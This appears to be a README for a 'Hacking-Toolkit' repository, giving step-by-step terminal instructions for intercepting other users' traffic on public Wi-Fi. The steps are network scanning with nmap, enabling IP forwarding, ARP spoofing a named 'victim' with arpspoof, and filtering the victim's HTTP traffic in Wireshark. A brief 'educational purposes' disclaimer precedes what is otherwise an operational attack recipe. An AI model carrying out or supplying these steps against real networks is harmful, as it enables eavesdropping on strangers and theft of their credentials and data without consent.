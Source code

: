 # Hacking-Toolkit
I compiled all hacking tools I have found, Credit to the original writers of these tools. Please use this code at your own risk and NEVER TRY IT ON A WEBSITE YOU DON'T HAVE PERMISSION FROM  I REPEAT NEVER.
This is only for educational purposes, If you do choose to use it for malicious purposes I am not held responsible.

Here are the instructions on how to use each tool:

1: Invasion (This only works if you are trying to access a public WI-FI access point)

Requirements: Kali Linux or other Linux with required tools installed, Nmap, Arpspoof, and Wireshark

Step 1: Connect to the target network and run the following command in the terminal:

```
ip route
```

Step 2: Next step is to use nmap to find the different hosts connected to the network by executing the following command:

nmap -sP -n "gateway address/ip range"

Step 3: Enable IP forwarding using the command:

echo 1 > /proc/sys/net/ipv4/ip_forward

Step 4: To get victim traffic on our device, we will be using arpspoof command. For arpspoof command we require to know the interface on which we carry out the attack, for that run the following command:

ifconfig

Now run the following command:

arpspoof -i wlp3s0 -t "victim host ip address" -r "our ip address"

Step 5: Finally to intercept the victim’s traffic we are going to use Wireshark and all we have to do is use the victim’s IP Address. Let’s say we only want to have HTTP traffic, we can use the following query:

http && ip.addr == "victim's ip address"



